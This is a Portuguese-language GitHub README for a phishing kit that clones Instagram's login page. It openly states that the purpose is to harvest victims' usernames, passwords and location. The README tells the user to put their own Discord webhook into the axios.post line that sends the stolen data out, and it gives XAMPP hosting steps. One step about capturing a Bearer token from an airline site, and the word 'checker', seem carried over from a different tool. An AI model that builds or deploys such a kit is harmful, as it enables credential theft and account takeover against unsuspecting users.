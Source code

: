# 📷 Tela Fake Instagram

A **Tela Fake do Instagram** nada mais seria **um site idêntico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros**!

## 📸 Exemplo de Interface

![img](img/exemple.png)

## 📩 Como recebo as informações?

- **Para receber o login, senha & outros coletados pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida`. Exemplo**:
  - `const response = await axios.post('https://discord.com/api/webhooks/exemplo/1nsaneqy', data);`
  - **Este código acima poderá ser encontrado na linha `258`**.

## 🖥 Consigo testar em minha máquina local?

Claro! Para testar a **Tela Fake** em seu computador, basta seguir esse processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)
2. Após a instalação, vá até o local onde o XAMPP foi instalado.
3. Dentro da pasta do XAMPP, procure por "htdocs".
4. Apague todo o conteúdo dentro, e cole a `index.html`.
5. Abra a `index.html` com o Bloco de Notas ou outro editor de texto (não se esqueça de trocar a webhook).
6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`.
7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/).
8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!
